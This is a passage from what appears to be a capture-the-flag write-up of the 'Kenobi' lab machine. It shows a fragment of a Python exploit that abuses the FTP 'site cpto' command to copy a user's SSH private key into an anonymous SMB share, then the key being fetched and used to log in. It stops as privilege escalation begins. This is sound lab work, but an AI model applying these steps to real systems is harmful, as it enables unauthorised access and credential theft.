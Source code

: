 ```python
        s.recv(1024)
        s.send(f'site cpto {dest} \n'.encode())
        s.recv(1024)
```

```bash
root@kali:~/exploit# python3 exploit.py $ATTACKTARGET '/home/kenobi/.ssh/id_rsa' '/home/kenobi/share/id_rsa'
[ + ] Connected to server [ + ]

root@kali:~# smbclient //$ATTACKTARGET/anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 15 00:53:15 2020
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  id_rsa                              N     1675  Sun Nov 15 00:53:15 2020
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

  9204224 blocks of size 1024. 6877112 blocks available
smb: \> get id_rsa 
getting file \id_rsa of size 1675 as id_rsa (817.8 KiloBytes/sec) (average 817.9 KiloBytes/sec)
smb: \> 
root@kali:~# mv id_rsa ~/.ssh/kenobi && chmod 600 ~/.ssh/kenobi
root@kali:~# ssh kenobi@$ATTACKTARGET -i ~/.ssh/kenobi 
load pubkey "/root/.ssh/kenobi": invalid format
The authenticity of host '10.10.221.157 (10.10.221.157)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.221.157' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$
```

Success! I had a local account on the host!

#### Escalating privileges

I began to poke around on the host and managed to find a flag `user.txt` sitting in kenobi's home directory. I followed my usual CTF local enumerating steps, which included checking the host version, sudo privs, etc... when I'd noticed a binary I wasn't familiar with when checking for files with the SUID bits set. I've truncated the output a bit for clarity.
